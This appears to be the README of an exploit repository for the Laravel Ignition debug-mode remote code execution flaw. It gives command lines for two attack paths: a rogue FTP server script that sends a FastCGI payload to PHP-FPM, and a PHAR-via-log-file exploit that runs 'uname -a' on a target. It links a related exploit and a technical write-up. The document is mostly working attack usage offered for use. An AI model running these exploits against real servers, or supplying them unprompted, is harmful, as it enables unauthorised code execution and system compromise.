

# laravel-debug-rce
laravel debug rce caused by Ignition  

## Talking to PHP-FPM using FTP
usage:   
generate your fastcgi payload [Gopherus](https://github.com/tarunkant/Gopherus/blob/master/scripts/FastCGI.py)  

python3 evilftp.py -t http://localhost:8000 -i 127.0.0.1 -f payload  
  

## Log file to PHAR
Already exists [khanhnv-2091/laravel-8.4.2-rce](https://github.com/khanhnv-2091/laravel-8.4.2-rce/blob/main/exploit.py)  
python3 exploit.py http://pwnme.me:8000 /var/www/html/laravel/storage/logs/laravel.log 'uname -a'

## References
[Laravel <= v8.4.2 debug mode RCE](https://www.ambionics.io/blog/laravel-debug-rce)
